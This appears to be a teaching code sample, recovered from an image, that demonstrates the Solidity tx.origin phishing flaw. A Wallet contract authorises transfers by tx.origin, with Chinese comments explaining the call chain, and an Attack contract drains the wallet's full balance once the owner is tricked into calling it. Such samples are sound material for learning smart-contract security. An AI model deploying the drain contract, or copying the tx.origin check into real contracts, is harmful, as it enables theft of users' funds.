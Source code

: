 ```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

contract Wallet {
    address public owner;

    event SubmitEvent(address addr, uint amount);

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address _to, uint amount) external {
        emit SubmitEvent(tx.origin, amount);
        //这里tx.origin时调用链头部的发起者，
        //Alice -> Attack.attack -> Wallet.transfer
        //tx.origin = Alice
        require(owner == tx.origin, "not owner");
        payable(_to).transfer(amount);
    }

    function getBalance() public returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    Wallet wallet;

    receive() external payable{}

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
    }

    function attack() public {
        wallet.transfer(address(this), address(wallet).balance);
    }

    function getBalance() public returns (uint) {
        return address(this).balance;
    }
}
```